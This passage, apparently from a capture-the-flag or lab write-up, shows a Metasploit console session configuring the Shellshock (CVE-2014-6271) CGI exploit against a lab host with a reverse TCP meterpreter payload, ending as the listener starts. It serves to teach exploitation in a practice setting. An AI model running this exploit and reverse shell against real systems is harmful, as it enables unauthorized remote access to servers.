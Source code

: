 # Exploitation with Metasploit
We also have the exploit for Shellshock vulnerability inbuilt into Metasploit as well. Once we set the required options for the module, running it gives us a shell like before.

```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.56       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin              yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on a
                                               ll addresses.
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Linux x86
   1   Linux x86_64


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
```